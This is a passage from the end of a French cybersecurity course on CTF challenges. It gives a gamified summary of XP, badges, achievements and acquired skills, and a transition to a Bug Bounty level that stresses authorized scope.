Le niveau 7 t'a appris à **résoudre des défis techniques dans un cadre autorisé**. Le niveau 8, **Bug Bounty**, te fait passer de la salle d'entraînement au terrain : sur des plateformes de chasse aux bugs (avec rémunération), tu appliques exactement les mêmes techniques — mais sur de vraies applications, avec un **scope** (périmètre autorisé) défini, une méthodologie de recon poussée (sous-domaines massifs, automatisation) et un **rapport de vulnérabilité** professionnel qui vaut de l'argent.



Les réflexes acquis ici — identifier avant d'agir, décoder avant de casser, documenter avant d'oublier — sont exactement ceux du bug bounty hunter. Tu as les outils ; il te reste à apprendre le terrain.

---

## Gamification

### XP et badge

| Élément | Valeur |
| ------- | ------ |
| **XP gagnés** | 1500 XP |
| **Badge** | 🚩 Flag Hunter |
| **Temps** | 16 heures |
| **Niveau débloqué** | Niveau 8 — Bug Bounty |

### Succès débloquables

| Succès | Condition | Bonus XP |
| ------ | --------- | -------- |
| 🚩 **Premier Flag** | Résoudre ton premier challenge CTF | +50 XP |
| 🔍 **Fouineur** | Résoudre un défi par recon seule (sans exploitation) | +50 XP |
| 🧪 **Casseur** | Casser un hash avec `john` ou `hashcat` | +50 XP |
| 🖼️ **Décrypteur d'images** | Résoudre un défi stéganographie | +50 XP |
| 🕸️ **Exploiteur web** | Résoudre un défi Web (SQLi, LFI, SSTI…) | +50 XP |
| 📓 **Carnetiste** | Écrire un write-up complet pour chaque mini challenge | +100 XP |
| 🏭 **Organisateur** | TP1 réussi : créer puis résoudre tes propres challenges | +100 XP |
| 🎓 **PicoCompliant** | TP2 réussi : 5 challenges picoCTF validés | +100 XP |
| 💪 **Zero help** | Résoudre un mini challenge sans aucun indice | +50 XP |
| ⏱️ **Pilote de temps** | TP2 terminé en moins de 2 heures | +50 XP |

### Compétences acquises

À la fin de ce niveau, tu as validé les compétences suivantes (utiles pour ton profil et tes entretiens) :

| Compétence | Niveau atteint |
| ---------- | -------------- |
| Reconnaissance et énumération web | Autonome |
| Exploitation des failles web courantes | Intermédiaire |
| Décodage et identification de données | Autonome |
| Analyse forensics de fichiers et captures | Autonome |
| Stéganographie de base | Intermédiaire |
| OSINT de base | Autonome |
| Reverse engineering de crackmes | Débutant confirmé |
| Exploitation mémoire (ret2win) | Débutant |
| Programmation d'automatisation | Intermédiaire |

> 📌 **Règle de validation** : comme pour tous les niveaux, le cours est validé avec un score ≥ 80 % au quiz. Les bonus XP des succès s'ajoutent aux 1500 XP de base. Niveau 8 — Bug Bounty débloqué 🚩

---

*📄 Ce cours compte **2427 lignes** et contient bien les **16 sections** obligatoires du template CyberAcademy : Présentation, Objectifs pédagogiques, Vue d'ensemble, Théorie, Visualisation, Démonstration, Cas réels, Laboratoires, Mini Challenges, Quiz, Cheat Sheet, Pièges fréquents, Conseils professionnels, Résumé, Progression et Gamification.*
